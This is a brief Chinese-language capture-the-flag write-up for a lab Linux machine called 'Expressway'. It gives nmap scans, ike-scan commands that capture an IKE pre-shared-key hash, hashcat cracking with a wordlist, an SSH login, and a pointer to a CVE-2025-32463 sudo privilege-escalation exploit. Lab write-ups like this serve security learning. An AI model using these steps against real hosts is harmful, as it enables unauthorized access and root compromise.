 ```yaml
---
title: Expressway
date: 2025-09-19
weight: 736
tags:
  - linux
  - easy
  - ike-scan
  - cve-2025-32463
---
```



端口扫描：

```bash
# 发现 22 端口
nmap 10.129.238.52

# 发现 500 端口
nmap -sU 10.129.238.52
```

入口：

```bash
# 信息探测
sudo ike-scan -M 10.129.238.52

# 获取 hash
sudo ike-scan -P -M -A -n fakeID 10.129.238.52

# 爆破 hash
hashcat -m 5400 hash.txt /usr/share/wordlists/rockyou.txt
```

爆破出密码，然后ssh登录

信息收集，`sudo -V` 发现 sudo 版本是 1.9.17

网上搜索，发现可以用 [CVE-2025-32463](https://www.exploit-db.com/exploits/52352) 提权 